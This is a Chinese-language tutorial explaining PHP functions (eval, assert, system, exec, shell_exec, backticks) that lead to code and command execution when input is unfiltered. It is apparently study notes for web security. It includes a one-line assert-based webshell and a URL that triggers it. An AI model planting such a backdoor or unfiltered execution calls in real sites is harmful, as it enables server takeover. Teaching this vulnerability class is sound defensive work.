 ## 利用系统函数实现命令执行的函数(代码执行)（Remote Command Exec）
如果页面中存在这些函数并且对于用户的输入没有做严格的过滤，那么就可能造成远程命令执行漏洞。
### eval
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35382792/1681195238961-d368e232-a02a-4002-88a0-1b3ca82fad6c.png#averageHue=%23efeeed&clientId=u3c95aa6f-a0d2-4&from=paste&height=590&id=u5e3ae13a&name=image.png&originHeight=737&originWidth=862&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=68884&status=done&style=none&taskId=u8d27a3ee-0e34-4dd9-9492-b94cd6b7da0&title=&width=689.6)
```
?php
    eval("phpinfo();");
?>
```
eval 函数中的参数必须是 PHP 代码的字符串，需要以 ; 为结尾
### assert
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35382792/1681193301471-a14abaa6-2166-4d81-ac1f-81e1576c80ef.png#averageHue=%23eeedec&clientId=u3c95aa6f-a0d2-4&from=paste&height=622&id=CTWmm&name=image.png&originHeight=778&originWidth=863&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=90158&status=done&style=none&taskId=u1f138466-4048-4f6f-a725-c56edfd61e8&title=&width=690.4)
```
一句话木马
<?php
	assert($_GET['pass']);
?>

访问：
http://xxx/codeexec.php?pass=phpinfo()
```
assert 函数的参数可以为布尔类型的值，也可以是字符串，当参数为**字符串**时，会被当作 PHP 代码执行
assert()函数传入的php代码不需要 ; 来作为结尾
## 直接执行系统命令的代码函数(命令执行)（Remote Code Exec）
未严格过滤用户输入的参数,导致用户可以通过传参在服务器终端执行系统命令，相当于是在命令行终端下执行系统命令
### system
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35382792/1680931401680-15de43b5-2a67-4e36-a744-cad8247436f2.png#averageHue=%23f1f0f0&clientId=u0fcf7dbc-f887-4&from=paste&height=672&id=u46404e03&name=image.png&originHeight=840&originWidth=1152&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=51708&status=done&style=none&taskId=u59003ac3-b3b3-4b66-8dd5-827c2bf5ee6&title=&width=921.6)
```
<?php
system("whoami");  --引号加不加都行，默认是 command 类型参数
?>
```
### passthru
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35382792/1680931882350-2bd75d7a-722d-4e1a-ab11-5f12ccad03a1.png#averageHue=%23f0f0ef&clientId=u0fcf7dbc-f887-4&from=paste&height=634&id=ZPPjV&name=image.png&originHeight=792&originWidth=1150&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=55349&status=done&style=none&taskId=u92708016-3ef0-466c-8ce6-040695a12d3&title=&width=920)
除无返回值外，其余与 system 相差不大
```
<?php
passthru("whoami"); 
?>
```
### exec
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35382792/1680931732438-315146a7-0083-4a7a-ad3f-6dcd1346e8e5.png#averageHue=%23f0f0ef&clientId=u0fcf7dbc-f887-4&from=paste&height=641&id=u7c2f88c8&name=image.png&originHeight=801&originWidth=1013&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=56144&status=done&style=none&taskId=u4605a2f3-35a9-44cc-911e-801b835e861&title=&width=810.4)
```
<?php
echo exec("whoami");  --默认无回显,需要手动加上echo.而且只会回显出一行结果,因此常用第二个数组参数接收多行结果
?> 
```
### shell_exec
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35382792/1680932351358-02a3cd68-6633-4856-b621-7320044c5f78.png#averageHue=%23f2f2f1&clientId=u0fcf7dbc-f887-4&from=paste&height=665&id=ua546689c&name=image.png&originHeight=831&originWidth=1221&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=50039&status=done&style=none&taskId=u0bd4810e-38aa-4679-a5bf-acf2093464a&title=&width=976.8)
```
<?php
echo shell_exec("whoami");  --默认无回显,需要手动加上echo,可以输出多行结果
?>
```
无法通过返回值检测进程是否成功执行，所以当 PHP 运行在安全模式下时不要使用该函数，与 exec不同的是执行过程中发生错误或进程不产生输出，则返回 NULL。
### 执行操作符(反引号)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35382792/1680932811195-d23c0c69-e236-425e-b642-90fb1329f4ed.png#averageHue=%23efefee&clientId=u0fcf7dbc-f887-4&from=paste&height=500&id=uaf6ce127&name=image.png&originHeight=625&originWidth=1367&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=62177&status=done&style=none&taskId=ub96addc5-4a7f-44f3-b731-7d3b10c4833&title=&width=1093.6)
```
<?php
echo `whoami`;  --默认没有回显
?> 
```
反引号运算符在激活了安全模式或者关闭了 shell_exec() 时是无效的。 

